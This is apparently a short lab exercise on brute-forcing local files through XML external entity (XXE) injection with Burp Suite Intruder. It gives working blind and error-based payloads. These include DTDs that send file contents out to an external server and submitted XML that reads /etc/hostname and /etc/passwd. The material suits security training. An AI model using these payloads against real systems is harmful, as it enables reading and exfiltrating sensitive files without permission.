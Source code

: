 ```yaml
---
title: "Brute Force Local Files"
weight: 30
---
```


In this exercise we want to brute-force local files through a tool like Brup Suite Intruder. The assumption is that a Basic XXE attack will not work and so we will need to rely on a Blind XXE or Error Based attack.

In order to do this we need to have the file specified in the internal dtd (so that it can be manipulated by Intruder). We will also need to define an external dtd that has a General Entity to accept the file content and include it in the XML document.


## Blind

First the dtd found in `/home/vagrant/dtds/brute.dtd`

```xml
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://127.0.0.1:5000/?x=%file;'>">
%eval;
%exfil;
```

And what we submit:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY % file SYSTEM "file:///etc/hostname">
  <!ENTITY % ext SYSTEM "http://127.0.0.1:5000/brute.dtd">
  %ext;
]>

<name></name>
```

## Error Based

The contents of the dtd in `/home/vagrant/dtds/brute_error.dtd`

```xml
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % ext SYSTEM "http://127.0.0.1:5000/brute_error.dtd">
  %ext;
]>

<name></name>
```
